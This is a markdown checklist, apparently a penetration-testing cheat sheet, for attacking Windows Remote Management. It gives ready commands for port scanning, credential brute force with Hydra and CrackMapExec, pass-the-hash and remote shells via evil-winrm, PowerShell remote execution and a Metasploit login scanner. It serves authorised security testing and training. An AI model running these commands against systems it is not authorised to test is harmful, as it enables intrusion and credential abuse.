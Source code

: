 # WinRM Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating WinRM (ports 5985/5986), I realistically expect to find:

- [ ] Remote PowerShell access enabled
- [ ] Valid credentials (username/password or hash) for authentication
- [ ] Ability to execute PowerShell commands remotely
- [ ] Possibility of launching an interactive PowerShell session
- [ ] Options for file upload/download or lateral movement
- [ ] Potential for weak HTTPS configuration or lack of authentication

---

## ✅ WinRM Pentest Checklist

- [ ] **Basic Port Discovery**
  - Confirm WinRM ports are open.
    ```
    nmap -p 5985,5986 <IP>
    ```

- [ ] **Nmap Scripts**
  - Use NSE script to check for service info.
    ```
    nmap -sV --script http-windows-remote-management -p5985,5986 <IP>
    ```

- [ ] **Windows Client Testing**
  - Check if target responds to WinRM.
    ```powershell
    Test-WSMan <IP>
    ```

- [ ] **Configure Attack Machine (Windows)**
  - Enable PS Remoting and Trust Hosts.
    ```powershell
    Enable-PSRemoting -Force
    Set-Item wsman:\localhost\client\trustedhosts *
    ```

---

- [ ] **Remote Command Execution (Windows)**
  - Run command remotely.
    ```powershell
    Invoke-Command -ComputerName <IP> -ScriptBlock {ipconfig /all} -Credential <DOMAIN\User>
    ```

  - Run a local script remotely.
    ```powershell
    Invoke-Command -ComputerName <IP> -FilePath C:\path\to\script.ps1 -Credential <DOMAIN\User>
    ```

  - Enter interactive PS session.
    ```powershell
    Enter-PSSession -ComputerName <IP> -Credential <DOMAIN\User>
    ```

---

- [ ] **Linux Brute Force (Be Careful)**
  - Brute force with CrackMapExec.
    ```
    crackmapexec winrm <IP> -u <user> -p <pass> -x "whoami"
    crackmapexec winrm <IP> -u <user> -H <hash> -X '$PSVersionTable'
    ```

- [ ] **Brute Force with Hydra**
    ```
    hydra -t 4 -V -l <user> -P passwords.txt winrm://<IP>
    ```

---

- [ ] **Linux Interactive Shell with Evil-WinRM**
  - Install and connect.
    ```
    gem install evil-winrm
    evil-winrm -i <IP> -u <user> -p <password>
    ```

  - Pass-the-hash.
    ```
    evil-winrm -i <IP> -u <user> -H <hash>
    ```

---

- [ ] **Docker PowerShell Option**
  - For PowerShell remoting from Linux.
    ```
    docker run -it quickbreach/powershell-ntlm
    $creds = Get-Credential
    Enter-PSSession -ComputerName <IP> -Authentication Negotiate -Credential $creds
    ```

---

## ✅ Metasploit Module

- **WinRM Login Scanner**
    ```
    use auxiliary/scanner/winrm/winrm_login
    ```

---

## ✅ Reference

- [HackTricks - WinRM](https://book.hacktricks.xyz/pentesting/pentesting-winrm)
- [Evil-WinRM GitHub](https://github.com/Hackplayers/evil-winrm)

